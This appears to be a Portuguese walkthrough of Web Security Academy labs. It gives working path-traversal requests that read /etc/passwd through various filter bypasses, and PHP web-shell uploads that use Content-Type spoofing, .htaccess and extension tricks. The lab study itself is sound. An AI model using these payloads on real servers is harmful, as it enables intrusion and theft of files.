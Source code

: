# Exercises

## Directory traversal

### >> 1. File path traversal, simple case
Crie uma requisição GET contendo o caminho do arquivo a ser lido
````http
GET /image?filename=../../../etc/passwd HTTP/1.1
Host: ac611f7c1ebca4cec0b52379003e009f.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 2. File path traversal, traversal sequences blocked with absolute path bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/etc/passwd HTTP/1.1
Host: ac601f011f09bc6dc05120b5004a00fa.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 3. File path traversal, traversal sequences stripped non-recursively
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=....//....//....//....//etc//passwd HTTP/1.1
Host: acb91f041e530947c0f6088a004200cf.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 4. File path traversal, traversal sequences stripped with superfluous URL-decode
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd HTTP/1.1
Host: ace71f641fb2b647c042061a009f000c.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 5. File path traversal, validation of start of path
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
Host: ac161f371e40f5e0c054e80a00050088.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````

### >> 6. File path traversal, validation of file extension with null byte bypass
Crie uma requisição GET contendo o caminho do arquivo a ser lido

````http
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
Host: ac491fa91eae86f5c0c5043900fb008a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Connection: close


````



## File upload vulnerabilities 

### >> 1. Remote code execution via web shell upload
Crie um arqvuio com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens e acesse o arquivo submetido através do link informado.

`Flag: 0sehBXVzLAZHtNFAuMJmIlFDR3UGAx5s`

### >> 2. Web shell upload via Content-Type restriction bypass
Crie um arquivo com o conteudo:
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````
Submeta o arquivo via upload de imagens 

Encaminhe a request para repeater e altera o header de:

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

````http
------WebKitFormBoundarySAtt4ZPtNsBRhSWY
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

e acesse o arquivo submetido através do link informado.

`Flag: iiVfQK3LlDuvm0uskl9M2nHoeSEX4JrA`

### >> 3. Web shell upload via path traversal
Crie um arquivo com o conteudo
````php
 <?php echo file_get_contents('/home/carlos/secret'); ?> 
````

Submeta o arquivo para upload e acesse pelo navegador
````http

------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fwebshell2.php"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarywl7b3A4o80gjAjZb
Content-Disposition: form-data; name="csrf"

D3cLNSSIkUUvvKdxO0LsCy8ryg6CxhH7
------WebKitFormBoundarywl7b3A4o80gjAjZb--
````

`Flag: XkJTTpCMVsexpPb2EkLhZpRnuIhc7D1h`

### >> 4. Web shell upload via extension blacklist bypass

Crie um arquivo .htaccess com permissao de execucao php para shtml
````apache
<Files *.shtml>
ForceType application/x-httpd-php
</Files>
````

Crie um arquivo webshell
````php
<?php echo file_get_contents('/home/carlos/secret'); ?>
````

````htttp
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

<Files *.shtml>
ForceType application/x-httpd-php
</Files>
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarye3lspOAogkMjAhO7
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundarye3lspOAogkMjAhO7--
````

````http
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="avatar"; filename="webshell.shtml"
Content-Type: image/png

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryid3hJcJV3tX9G7VB
Content-Disposition: form-data; name="csrf"

t4wvyamnWaFWHez4TJd9SQxZUXxYSLI6
------WebKitFormBoundaryid3hJcJV3tX9G7VB--
````

### >> 5. Web shell upload via obfuscated file extension

Crie uma requisição com o nome do arquivo modificado para atender os requisitos
````http
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="avatar"; filename="webshell.php%00.png"
Content-Type: application/octet-stream

 <?php echo file_get_contents('/home/carlos/secret'); ?> 
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U
Content-Disposition: form-data; name="csrf"

Ra1gXgVnwyebhHPsi3FWWSNBfY14epng
------WebKitFormBoundary2NUJ0mu3fL0Qhb2U--
````

### >> 6. Remote code execution via polyglot web shell upload
https://github.com/chinarulezzz/pixload/blob/master/README.md


